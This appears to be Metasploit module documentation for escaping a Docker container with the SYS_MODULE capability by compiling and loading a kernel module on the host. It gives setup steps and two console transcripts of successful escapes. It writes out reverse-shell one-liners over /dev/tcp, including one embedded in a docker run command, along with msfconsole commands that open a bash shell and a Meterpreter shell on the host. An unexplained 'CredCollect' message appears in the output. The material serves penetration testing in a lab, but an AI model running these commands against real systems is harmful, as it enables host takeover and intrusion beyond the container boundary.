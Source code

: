 ## Vulnerable Application

This module performs a container escape onto the host as the daemon user. It
takes advantage of the SYS_MODULE capability. If that exists and the linux
headers are available to compile on the target, then we can escape onto the host.

### Creating A Testing Environment

- Get a VM that you want to test on (or your own machine)
- Install Docker
- Run a listener (can be anything but this example will make use of the msfconsole `cmd/unix/reverse_bash` payload)
```msf
msf > use payload/cmd/unix/reverse_bash
msf payload(cmd/unix/reverse_bash) > set lhost vboxnet0 
lhost => 192.168.56.1
msf payload(cmd/unix/reverse_bash) > generate -f raw
bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
msf payload(cmd/unix/reverse_bash) > exploit -z
[*] Payload Handler Started as Job 0
msf payload(cmd/unix/reverse_bash) > 
[*] [2023.11.07-21:28:57] Started reverse TCP handler on 192.168.56.1:4444
```
- Create a privileged container (forwarding port 4444 in this example in order
to use a bind shell from the host. Container must be the same OS as host)
```bash
docker run --rm -it --cap-add SYS_MODULE ubuntu bash -c '0<&118-;exec 118<>/dev/tcp/192.168.56.1/4444;sh <&118 >&118 2>&118'
```
- Inside your session, install the required packages to run. Package manager will differ to OS, for debian as an example
```bash
apt update && apt install -y gcc make kmod linux-headers-$(uname -r)
```

## Verification Steps

1. Start msfconsole
2. Get a session
3. Install required packages into session (line 30)
4. Run `use exploit/linux/local/docker_privileged_container_kernel_escape`
5. Run `set SESSION [session]`
6. Run `check`
7. Run `set PAYLOAD [payload]`
8. Run `exploit`

## Options

### KernelModuleName

The name that the kernel module will be called in the system. The default if no
name is set is "{rand(8)}"

### WritableContainerDir

A directory where we can write files inside the container (default is `/tmp/.{rand(4)}`).
This is needed to drop the payload into the container.

### ReloadKernelModule

Rebuilds and reloads kernel module if its already loaded in case of repeat runs.

## Scenarios

### Container Escape from debian linux with reverse bash

```msf
msf > sessions -i 1 -c "apt update && apt install -y gcc make kmod linux-headers-$(uname -r)"
[*] Running 'apt update && apt install -y gcc make kmod linux-headers-$(uname -r)' on shell session 1 (192.168.56.126)
msf > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/local/docker_privileged_container_kernel_escape) > set session 1 
session => 1
msf exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:42:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:42:42] Creating files...
[*] [2023.11.07-21:42:43] Compiling the kernel module...
[+] [2023.11.07-21:42:43] Kernel module compiled successfully
[*] [2023.11.07-21:42:43] Loading kernel module...
[*] Command shell session 3 opened (192.168.56.1:4444 -> 192.168.56.126:60974) at 2023-11-07 21:42:50 -0500
[*] This is CredCollect, I have the conn!
```

### Container Escape from arch linux with meterpreter

```msf
msf > sessions -i 2 -c "pacman -Syy --noconfirm gcc glibc make linux-headers"
[*] Running 'pacman -Syy --noconfirm gcc glibc make linux-headers' on shell session 2 (192.168.56.106)
msf > use exploit/linux/local/docker_privileged_container_kernel_escape 
[*] Using configured payload cmd/unix/reverse_bash
msf exploit(linux/local/docker_privileged_container_kernel_escape) > set session 2 
session => 2
msf exploit(linux/local/docker_privileged_container_kernel_escape) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp 
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/local/docker_privileged_container_kernel_escape) > set lhost vboxnet0 
lhost => vboxnet0
msf exploit(linux/local/docker_privileged_container_kernel_escape) > check 
[*] The target appears to be vulnerable. Inside Docker container and target appears vulnerable
msf exploit(linux/local/docker_privileged_container_kernel_escape) > exploit -z

[*] [2023.11.07-21:48:40] Started reverse TCP handler on 192.168.56.1:4444 
[*] [2023.11.07-21:48:41] Creating files...
[*] [2023.11.07-21:48:43] Compiling the kernel module...
[+] [2023.11.07-21:48:44] Kernel module compiled successfully
[*] [2023.11.07-21:48:44] Loading kernel module...
[*] [2023.11.07-21:48:44] Sending stage (3045380 bytes) to 192.168.56.106
[*] Meterpreter session 4 opened (192.168.56.1:4444 -> 192.168.56.106:50402) at 2023-11-07 21:48:45 -0500
[*] This is CredCollect, I have the conn!
[*] Session 4 created in the background.
```

